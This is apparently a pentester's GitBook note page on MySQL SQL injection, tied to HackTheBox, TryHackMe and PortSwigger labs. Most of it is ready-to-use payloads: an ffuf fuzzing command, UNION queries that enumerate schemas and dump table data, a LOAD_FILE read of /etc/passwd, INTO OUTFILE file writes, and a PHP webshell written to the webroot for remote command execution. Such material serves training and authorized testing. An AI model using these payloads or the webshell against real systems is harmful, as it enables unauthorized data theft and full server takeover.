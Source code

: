 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQLi

## Assumptions

* IIS -> MSSQL
* Apache/Nginx -> MySQL

## SQLi Types



<figure><img src="../../../.gitbook/assets/sqli_types.png" alt=""><figcaption><p>Figure 1: SQL Injection types (imaged adapted from <a href="https://www.qafox.com/sql-injection-types/">here</a>).</p></figcaption></figure>

## Detection

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

## Banned Characters

{% code overflow="wrap" %}
```bash
ffuf -k -u https://watch.streamio.htb/search.php -d 'q=FUZZ' -w /usr/share/seclists/Fuzzing/special-chars.txt -c -ic -ac -H 'Content-Type: application/x-www-form-urlencoded'
```
{% endcode %}

## MySQL -  UNION Attack

Appropriate when the results are returned within the application's response. Two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [ ] [How many columns](sqli.md#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [ ] [Which columns are suitable](sqli.md#data-types) to hold the results from the injected query?

### Number of Columns

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error.

<figure><img src="../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 1: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 2a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 2b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal.

<figure><img src="../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 3: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it.

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos1.png" alt=""><figcaption><p>Figure 4: Passing string data to the first column returns a server error.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos2.png" alt=""><figcaption><p>Figure 5: Passing string data to the second column is accepted by the server.</p></figcaption></figure>

### Basic Enumeration

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
The comment at the end includes a space: <mark style="background-color:red;">`--`</mark>` ``` ! The `#` `` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
</strong></code></pre>
{% endtab %}

{% tab title="Current DB" %}
```sql
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong>a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
</strong></code></pre>
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```sql
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

### Reading Local Files

The `FILE` privilege is needed to **READ** files.&#x20;

{% tabs %}
{% tab title="User (1)" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user(), 3, 4-- 
</strong></code></pre>
{% endtab %}

{% tab title="User (2)" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
</strong></code></pre>
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```sql
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

### Writing Files

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.&#x20;

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```sql
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```sql
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="137">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Resources

{% tabs %}
{% tab title="HTB" %}
{% embed url="https://academy.hackthebox.com/course/preview/sql-injection-fundamentals" %}
{% endtab %}

{% tab title="THM" %}
{% embed url="https://tryhackme.com/r/room/sqlinjectionlm" %}
{% endtab %}

{% tab title="PortSwigger" %}
{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% endtab %}
{% endtabs %}
